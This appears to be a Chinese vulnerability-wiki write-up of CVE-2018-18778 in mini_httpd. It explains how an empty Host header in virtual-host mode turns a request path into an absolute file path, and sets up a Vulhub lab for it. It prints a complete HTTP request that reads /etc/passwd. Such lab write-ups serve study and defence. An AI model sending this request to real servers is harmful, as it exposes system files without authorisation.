

# ACME Mini_httpd 任意文件读取漏洞 CVE-2018-18778

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：虚拟主机模式开启、空Host导致拼接绝对路径、服务账户可读文件；实验1.29
- 证据范围：snprintf与空Host机制明确，HTTP请求完整；图片结果未视检

### 本次正文校订

- 按实际内容修正 2 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 缺完整影响/修复版本和模式启动参数
- 设备采用组件不等于所有列举品牌设备受此漏洞
- 约Apache90%性能无环境基准，应删无关宣传或注明来源

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

## 漏洞描述

Mini_httpd是一个微型的Http服务器，在占用系统资源较小的情况下可以保持一定程度的性能（约为Apache的90%），因此广泛被各类IOT（路由器，交换器，摄像头等）作为嵌入式服务器。而包括华为，zyxel，海康威视，树莓派等在内的厂商的旗下设备都曾采用Mini_httpd组件。

在mini_httpd开启虚拟主机模式的情况下，用户请求`http://HOST/FILE`将会访问到当前目录下的`HOST/FILE`文件。

```c
(void) snprintf( vfile, sizeof(vfile), "%s/%s", req_hostname, f );
```

见上述代码，分析如下：

- 当HOST=`example.com`、FILE=`index.html`的时候，上述语句结果为`example.com/index.html`，文件正常读取。
- 当HOST为空、FILE=`etc/passwd`的时候，上述语句结果为`/etc/passwd`。

后者被作为绝对路径，于是读取到了`/etc/passwd`，造成任意文件读取漏洞。

## 环境搭建

Vulhub执行如下命令启动mini_httpd 1.29：

```shell
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080`即可看到Web页面。

## 漏洞复现

发送请求是将Host置空，PATH的值是文件绝对路径：

```http
GET /etc/passwd HTTP/1.1
Host: 
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
```

成功访问文件`/etc/passwd`：




---

> 来源：Threekiii/Awesome-POC
